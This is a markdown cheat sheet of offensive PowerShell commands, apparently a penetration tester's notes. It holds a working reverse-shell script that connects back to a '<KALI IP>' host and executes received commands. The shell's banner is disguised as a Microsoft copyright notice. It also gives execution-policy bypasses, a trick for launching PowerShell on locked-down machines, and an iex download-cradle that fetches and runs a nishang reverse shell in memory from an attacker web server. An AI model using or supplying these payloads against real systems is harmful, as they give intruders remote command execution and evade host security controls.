 # PowerShell useful commands

## credentials

```powershell
$user = 'TESTLAB\dfm.a'
$pwd = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential($user, $pwd)
```

## shell

revshell.ps1

```powershell
$c = New-Object System.Net.Sockets.TCPClient("<KALI IP>","4444");
$I = $c.GetStream();[byte[]]$U = 0..(2-shl15)|%{0};
$U = ([text.encoding]::ASCII).GetBytes("Copyright (C) 2021 Microsoft Corporation. All rights reserved.`n`n");
$I.Write($U,0,$U.Length); $U = ([text.encoding]::ASCII).GetBytes((Get-Location).Path + '>'); $I.Write($U,0,$U.Length);
while(($k = $I.Read($U, 0, $U.Length)) -ne 0){;$D = (New-Object System.Text.UTF8Encoding).GetString($U,0, $k);
$a = (iex $D 2>&1 | Out-String ); $r  = $a + (pwd).Path + '> '; $m = ([text.encoding]::ASCII).GetBytes($r);
$I.Write($m,0,$m.Length); $I.Flush()}; $c.Close();
```

Execution Policy

```powershell
Get-ExecutionPolicy
Set-ExecutionPolicy unrestricted
```

Exec file

```powershell
powershell.exe -noprofile -executionpolicy bypass -File revshell.ps1
```

Powershell startup on locked targets

- create `.txt` file with the following content and rename file to `.cmd` or `.bat`

```powershell
powershell.exe -noprofile -executionpolicy bypass
```

Execute download direct on memory

```powershell
cd /opt/nishang/Shells/
sudo python -m http.server 80
```

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://<Kali IP>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

## Links

[PowerShell-Reverse-Shells](https://github.com/0x10F8/PowerShell-Reverse-Shells)
[PowerShell - no profile & execution policy](https://superuser.com/a/533745)
